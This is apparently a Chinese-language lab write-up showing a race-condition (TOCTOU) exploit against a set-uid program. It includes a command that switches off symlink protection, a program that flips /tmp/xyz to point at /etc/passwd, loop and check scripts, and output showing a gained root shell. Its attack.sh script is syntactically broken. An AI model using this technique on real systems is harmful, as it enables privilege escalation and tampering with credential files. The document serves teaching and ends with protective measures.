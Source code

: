## Race Condition

### 概述竞争条件
char* fn = "/tmp/xyz"  
检查access(fn,W_OK) 使用open(fn,"a+")  
在检查和使用的时候fn所指向的文件不是一个文件  
检查的时候判断的是用户真实ID  
使用的时候判断的是用户的有效ID  

本实验的目的是利用这个漏洞获得root权限  
我们需要创造竞争条件，来完成这个实验  
竞争条件需求:
1. 需要这个有漏洞的程序反复运行
2. 需要一个反复更改/tmp/xyz文件的链接
3. 需要一个反复检查结果是否成功的脚本

### 初始化攻击环境
0. 实验环境:ubuntu12
1. 关闭保护机制
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
2. 创建普通文件./XYZ

### 漏洞程序分析

漏洞程序源码:vulp.c
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
int main()
{
    char * fn = "/tmp/xyz";
    char buffer[] = "0000";
    FILE *fp;
    if(!access(fn, W_OK))
	{
        fp = fopen(fn, "r+");
        fseek(fp,-28,SEEK_END);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
}
```
运行脚本:attack.sh
```python
#!/bin/sh
$a = 0
while ["$a" == "$a"]
do
    ./vulp
done
```
检查运行结果是否修改了/etc/passwd文件:check.sh
```python
#!/bin/sh
old=`ls -l /etc/passwd`
new=`ls -l /etc/passwd`
while [ "$old" = "$new" ]
do
    new=`ls -l /etc/passwd`
done
echo "STOP... The passwd file has been changed"

```
修改/tmp/xyz软链接源文件:scrip.c
```c
#include <unistd.h>
int main()
{
    while(1)
    {
        unlink("/tmp/xyz");
        symlink("/home/seed/Seed/race-condition/XYZ","/tmp/xyz");
        usleep(10000);
        unlink("/tmp/xyz");
        symlink("/etc/passwd","/tmp/xyz");
        usleep(10000);
    }
    return 0;
}

```

### 漏洞利用获得root权限

1. 普通用户编译scrip.c，运行循环执行脚本attack.sh
2. root用户编译vulp.c，设置set-uid位，普通用户运行
3. 运行检查结果脚本check.sh

攻击结果:

```
gu:x:0000:1004::/home/gu:/bin/sh
[03/26/2018 23:17] seed@ubuntu:~/Seed/race-condition$ su gu
Password: 
# 
# whoami
root
#
```

### 保护措施

1. 保证检查和使用的文件是同一个文件
2. 及时回收set-uid的特权
3. 打开ubuntu12系统保护
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=1

